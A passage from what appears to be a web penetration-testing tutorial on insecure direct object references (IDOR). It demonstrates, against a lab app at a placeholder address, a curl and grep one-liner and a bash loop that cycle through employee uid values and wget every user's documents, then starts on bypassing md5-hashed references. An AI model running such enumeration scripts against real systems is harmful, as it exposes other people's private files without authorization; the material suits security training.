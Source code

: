 ```bash
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. 

However, it is a better practice to use a **Regex pattern** that matches strings between ``/document`` and ``.pdf``, which we can use with ``grep`` to only get the document links, as follows:
```bash
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple ``for`` loop to loop over the ``uid`` parameter and return the document of all employees, and then use ``wget`` to download each document link:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
When we run the script, it will download all documents from all employees with ``uids`` between ``1-10``, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. 
### Bypassing Encoded References
Previously, we saw an example of an IDOR that uses employee ``uids`` in clear text, making it easy to enumerate. In some cases, web apps make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the **Employee Manager** web app to test the **Contracts** functionality:
![[H1LeTy2P1l.png]]
If we click on the ``Employment_contract.pdf`` file, it starts downloading the file. The intercepted request in Burp looks as follows:
![[rkS-pJhDye.png]]
We see that it is sending a ``POST`` request to ``download.php`` with the following data:
```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
Using a ``download.php`` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. 

In this case, the web app is not sending the direct reference in cleartext but appears to be hashing it in an *md5* format. Hashes are one-way functions, so we cannot decode them to see their original values.
